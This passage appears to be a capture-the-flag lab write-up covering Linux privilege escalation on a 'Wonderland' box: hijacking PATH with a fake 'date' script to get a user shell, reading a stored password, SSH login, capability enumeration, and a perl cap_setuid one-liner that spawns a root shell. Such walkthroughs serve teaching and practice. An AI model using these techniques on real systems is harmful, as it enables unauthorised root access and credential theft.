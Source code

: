 We see the program calls `date` in this line: ```/bin/echo -n 'Probably by ' && date --date='next hour' -R```. Just like with "random" from above, let's create our own `date` file e.g.:

``` sh
#!/bin/sh
bash
```

Now, let's change the file to be executable by everyone: ```chmod +x date``` and add it to the path variables: ```PATH=/home/rabbit:$PATH```

If we now execute `./teaParty` we get a shell as hatter:

``` txt
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```

We can see the hatter password in `/home/hatter/password.txt`

## Login as hatter

Since we have the user name and password, let' us login with ssh: ```ssh hatter@10.10.28.31```

`sudo -l`, `find / -perm -u=s -type f 2>/dev/null` and `find / -xdev -user hatter 2>/dev/null` don't reveal any interesting output but `find / -xdev -group hatter 2>/dev/null` shows group hatter owns perl. Unfortunately sudo is not possible and the suid bit isn’t set on the perl executable.

There is another thing we can check: With `getcap -r / 2>/dev/null` we can check for "capabilities" and we see perl in the list:

``` txt
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Let's run a perl script misusing the capabilities from [GTOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities): "If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID."

```perl
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

We are now root and can read the root.txt in the home folder of alice:

``` sh
cat /home/alice/root.txt
```
